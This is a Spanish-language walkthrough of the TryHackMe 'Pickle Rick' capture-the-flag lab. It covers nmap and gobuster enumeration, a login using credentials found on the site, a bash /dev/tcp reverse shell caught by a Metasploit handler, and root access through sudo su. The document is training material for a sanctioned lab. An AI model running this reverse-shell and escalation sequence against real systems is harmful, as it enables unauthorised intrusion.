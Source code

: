 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Linux
  - HTTP
  - ReverseShell
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Pickle Rick

>En esta publicación, comparto cómo resolví la máquina **Pickle Rick** de [TryHackMe](https://tryhackme.com/room/picklerick).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 10.10.94.237`

![[Pasted image 20250723181451.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.94.237 -oG allPorts`

![[Pasted image 20250723181605.png]]

`nmap -p22,80 -sCV 10.10.94.237 -oN targeted`

![[Pasted image 20250723181640.png]]
### HTTP

`http://10.10.94.237/index.html`

![[Pasted image 20250723181725.png]]

![[Pasted image 20250723181759.png]]
#### Fuzzing Web

Se realiza **Fuzzing Web**.

`gobuster dir -u http://10.10.94.237/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250723182213.png]]

`gobuster dir -u http://10.10.94.237/assets/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250723182228.png]]

`dirb http://10.10.94.237/`

![[Pasted image 20250723182244.png]]

`dirsearch -u http://10.10.94.237/ -t 50 -i 200`

![[Pasted image 20250723182259.png]]

Se encuentran los siguientes directorios:
- `/assets/`.
- `/robotx.txt`.
- `/login.php`.

`http://10.10.94.237/assets/`

![[Pasted image 20250723182520.png]]

`http://10.10.94.237/robots.txt`

![[Pasted image 20250723182459.png]]

`http://10.10.94.237/login.php`

![[Pasted image 20250723210727.png]]

Se prueba con el usuario encontrado anteriormente en `index.html` (`R1ckRul3s`) y la contraseña descubierta en `robots.txt` (`Wubbalubbadubdub`).

---
## Explotación
### Reverse Shell

![[Pasted image 20250723211009.png]]

Se observa que tiene un bloque para algunos comandos.

Se realiza una *reverse shell*, [Reverse Shell Generator](https://www.revshells.com/).

![[Pasted image 20250723182922.png]]

Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`vin handler.rc`

```
use multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

`bash -c "sh -i >& /dev/tcp/10.8.184.124/1234 0>&1"`

![[Pasted image 20250723183031.png]]

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250723183159.png]]

`getuid`

![[Pasted image 20250723183213.png]]

`ls`

![[Pasted image 20250723183352.png]]

Se encuentra el primer ingrediente: `Sup3rS3cretPickl3Ingred.txt`.

Se accede al directorio `/home/rick`.

`cd /home/rick`

`ls`

![[Pasted image 20250723183527.png]]

Se encuentra el segundo ingrediente: `second ingredients`, para poder visualizarlo se utiliza: `cat "second ingredients"`.
### Escalada de Privilegios
#### Sudo

Se ejecuta `sudo -l` y se observa que el usuario tiene permisos para usar `sudo su`. Esto permite escalar privilegios a *root* directamente.

`shell`

`/bin/bash -i`

`sudo -l`

![[Pasted image 20250723183753.png]]

`sudo su`

![[Pasted image 20250723183815.png]]

Se accede al directorio: `/root`.

`ls`

![[Pasted image 20250723183853.png]]

Se encuentra el tercer ingrediente: `3rd.txt`.

---



